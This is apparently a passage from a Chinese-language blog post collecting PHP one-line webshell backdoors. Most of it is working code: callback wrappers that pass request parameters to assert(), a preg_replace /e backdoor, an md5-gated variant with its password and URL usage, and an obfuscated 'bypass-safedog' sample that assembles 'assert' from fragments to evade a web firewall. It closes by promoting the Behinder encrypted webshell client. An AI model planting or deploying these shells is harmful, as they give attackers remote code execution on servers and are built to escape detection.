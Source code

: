 ```
preg_replace_callback('/.+/i', create_function('$arr', 'return assert($arr[0]);'), $_REQUEST['pass']);

//23
mb_ereg_replace_callback('.+', create_function('$arr', 'return assert($arr[0]);'), $_REQUEST['pass']);

//24
$iterator = new CallbackFilterIterator(new ArrayIterator(array($_REQUEST['pass'],)), create_function('$a', 'assert($a);'));
foreach ($iterator as $item) {echo $item;}
```

**非常规的 pHp 一句话木马**
------------------

```
<?php
if(isset($_POST['page'])) {
	$page = $_POST[page];
	preg_replace("/[errorpage]/e",$page,"saft");
	exit;
}
?>

 带md5并可植入任意文件

<?
md5($_GET['qid'])=='850abe17d6d33516c10c6269d899fd19'?array_map("asx73ert",(array)$_REQUEST['page']):next;
?>

shell.php?qid=zxexp  密码page

ps:经过网友@kevins1022 测试，不可用。特说明下。或许是我们的测试姿势不正确。先保留
```

**bypass-safedog 再送一枚**
-----------------------

```
<?php
$a=md5('a').'<br>';
$poc=substr($a,14,1).chr(115).chr(115).substr($a,22,1).chr(114).chr(116);
$poc($_GET['a']);
?>
```

综上，这些 PHP 一句话后门可谓五脏俱全，一不小心您肯定中招了，而我们今天这篇文章的重中之重在哪呢？重点就在下边的总结!

[“冰蝎” 动态二进制加密网站管理客户端，WebShell 工具](https://www.uedbox.com/post/51031/)
---------------------------------------------------------------------

随时技术的更新迭代，普通的一句话变量等已经很难存活，2018 年开始流行的 “冰蝎” 大家可以了解一下。

